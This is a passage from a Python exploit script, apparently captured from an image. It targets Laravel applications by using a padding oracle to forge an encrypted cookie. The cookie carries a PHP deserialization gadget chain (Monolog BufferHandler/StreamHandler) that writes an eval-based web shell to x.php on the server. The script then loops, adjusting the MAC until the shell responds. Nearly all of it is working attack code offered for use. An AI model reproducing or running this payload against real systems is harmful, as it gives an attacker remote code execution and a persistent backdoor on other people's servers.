 ```
        for p_char, cv_char in zip(self.plaintext, self.cv):
            self.iv.append(p_char ^ cv_char)

def main():
    parser = init_parser()
    option, _ = parser.parse_args()
    domain = option.host

    if not domain:
        parser.print_help()
        sys.exit(0)

    domain = domain if domain.startswith('http') else "http://{domain}".format(domain=domain)
    domain = domain if not domain.endswith('/') else domain[:-1]

    cookie = dict()
    cookie['mac'] = 0

    payload = ('''O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29'''
               ''':"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:26:"/var/www/blog/public/x.php";}'''
               '''s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php '''
               '''eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;}''')

    padding_payload = LaravelOracle.add_padding(payload)
    payload_block = reversed(struct.unpack("32s"*(len(padding_payload)/32), padding_payload))

    ciphertext = bytearray('0'*32)
    for each_payload_block in payload_block:
        print("[plaintext] {payload_block}".format(payload_block=each_payload_block))
        print("[ciphertext] {ciphertext}".format(ciphertext=base64.b64encode((ciphertext[:32]))))
        LO = LaravelOracle(domain, each_payload_block, ciphertext[:32])
        LO.exploit()
        print("[iv] {iv}".format(iv=base64.b64encode(LO.iv)))
        ciphertext = LO.iv + ciphertext

    cookie['iv'] = ciphertext[:32]
    cookie['value'] = ciphertext[32:]
    cookie['mac'] = 0

    while True:
        send_cookie = LaravelOracle.format_cookie(cookie)
        requests.get(domain, cookies=send_cookie, timeout=7)
        if requests.get("{domain}/{backdoor}".format(domain=domain, backdoor='x.php')).status_code == 200:
            print("cookie: \n{cookie}".format(cookie=send_cookie))
            return
        cookie['mac'] += 1

if __name__ == '__main__':
    main()

```
